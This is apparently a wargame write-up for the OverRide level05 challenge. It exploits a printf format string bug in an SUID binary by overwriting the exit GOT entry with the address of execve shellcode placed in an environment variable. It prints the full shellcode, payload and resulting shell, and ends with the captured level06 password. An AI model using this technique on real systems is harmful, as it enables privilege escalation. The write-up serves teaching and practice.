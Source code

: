 # Level05 Exploit

## 1. Initial Analysis

List the files in the directory:

```bash
level05@OverRide:~$ ls -l
total 8
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

The `level05` binary has the SUID bit set, which means it will run with the permissions of the owner of the file, in this case `level06`.

## 2. Program Execution

Observe the program behavior:

```bash
level05@OverRide:~$ ./level05 
test
test
level05@OverRide:~$ ./level05 
aaaaaaaaaaaaaa aaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaa aaaaaaaaaaaaaaaaaaaaaaaaaa
```

We can see that the program waits for an input, and then prints the input.

## 3. Disassembling `main` Function

Use GDB to disassemble the `main` function:

```bash
level05@OverRide:~$ gdb level05
(gdb) disass main
```

You can convert the assembly code to C using the [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter) tool. You can find the converted code in [source.c](source.c).

## 4. Program Analysis

In the `main` function, we can see that the program reads the standard input into a buffer.
After that, in the `while` loop, the program checks if the character is less than or equal to `0x40` (64 in decimal) or greater than `0x5A` (90 in decimal). If it is, the program breaks out of the loop.
In the ASCII table, the characters from `0x41` to `0x5A` are the uppercase letters.
The program converts the uppercase letters to lowercase by XORing the character with `0x20`.
```c
while (index < 40) {
    char ch = buffer[index];
    if (ch <= 0x40) {
        break;
    }
    if (ch > 0x5A) {
        break;
    }
    buffer[index] ^= 0x20;
    index++;
}
```
Then, the program prints the buffer.
This `printf` function is vulnerable to a format string attack.
Indeed, we can use format string specifiers to read or write memory.

### 4.1. Format String Vulnerability

In the `printf` function, the `%n` format string specifier writes the number of characters written so far to the variable.
Example:
```c
int n = 0;
printf("Hello %n", &n);
printf("%d\n", n); // Output: 6
```

The `%hn` format string specifier writes the number of characters written so far to the variable, but it writes only 2 bytes.
Example:
```c
short n = 0;
printf("Hello %hn", &n);
printf("%d\n", n); // Output: 6
```
The `%10$hn` format string specifier writes the number of characters written so far to the 10th argument.

## 5. Exploitation

In the program, after `printf(buffer)`, there is `exit(0)`.
We will try to overwrite the `exit` function pointer with the address of a shellcode.

### 5.1. Find the Offset

We will use the `%x` format string specifier to print the stack content, and find where the first argument is located.

```bash
level05@OverRide:~$ ./level05 
AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
aaaa 64 f7fcfac0 f7ec3af9 ffffd66f ffffd66e 0 ffffffff ffffd6f4 f7fdb000 61616161 20782520 25207825 78252078 20782520 25207825
```
We can see that the first argument is located at the 11th position.

### 5.2. Find the Address of the `exit` Function

```bash
level05@OverRide:~$ objdump -R level05

level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```
The address of the `exit` is contained in the `R_386_JUMP_SLOT` section at address `0x080497e0`.

### 5.3. Declare the Shellcode

Our shellcode: `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`.
We will export the shellcode to an environment variable.

```bash
export SHELLCODE=`python -c 'print "\x90" * 128 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`
```
We add 100 NOPs before the shellcode to ensure that the shellcode is executed.

Now, we will search for the address of the environment variable.

```bash
level05@OverRide:~$ gdb ./level05 
(gdb) break main
Breakpoint 1 at 0x8048449
(gdb) run
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) x/s *((char **)environ)
0xffffd855:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀"
```
The command `x/s *((char **)environ)` prints the environment variables.
`x` is used to examine memory, and `s` is used to print in string format.
`*((char **)environ)` is used to get the address of the environment variables.

The address of our `SHELLCODE` environment variable is `0xffffd855`.

### 5.4. Exploit

We will write the adress of the `SHELLCODE` environment variable to the adresse which contains the `exit` address.
We know that the address which contains the `exit` address is `0x080497e0`.
So in little endian, it is `\xe0\x97\x04\x08`.
If we write this address in the printf, we can see that the address is write in the 10th argument.
```bash
level05@OverRide:~$ python -c 'print "\xe0\x97\x04\x08 %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"' | ./level05
� 64 f7fcfac0 f7ec3af9 ffffd66f ffffd66e 0 ffffffff ffffd6f4 f7fdb000 80497e0 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520
```

Now, we will use the `%hn` format string specifier to write the address of the `SHELLCODE` environment variable.
We will write first the 2 high bytes, then the 2 low bytes.

We can't just use `%n` to write the address of the `SHELLCODE` environment variable, because `0xffffd855` in decimal is `4294957141`, which is too big to write in one shot. It doesn't work.

SHELLCODE address = `0xffffd855`
In little-endian, the low bytes are stored first, then the high bytes.
So we want to write `0xffff` in `0x080497e2` and `0xd855` in `0x080497e0`.

`0xd855` = 55413 in decimal, so we will write `55413 - 8 = 55405` to write `0xd871`, - 8 bytes for the address of the pointer to the `exit` function.
So we will write `%55405%10$hn` (`%55405x` to write 55405 characters in hexadecimal, and `%10$hn` to write the number of characters written so far to the 10th argument).

`0xffff` = 65535 in decimal, so we will write `65535 - (55405 + 8) = 10122` to write `0xffff`.
`%10122%11$hn` (`%10122x` to write 10122 characters in hexadecimal, and `%11$hn` to write the number of characters written so far to the 11th argument).

Payload total: `\xe0\x97\x04\x08` + `\xe2\x97\x04\x08` + `%55405x%10$hn%10122x%11$hn`.
```bash
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55405x%10$hn%10122x%11$hn"' > /tmp/test
(cat /tmp/test; cat) | ./level05
```

We are now in a shell with the permissions of `level06`.
```bash
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

Congratulations! You have successfully exploited the `level05` binary and found the password for `level06`.

```bash
level05@OverRide:~$ su level06
Password: 
```
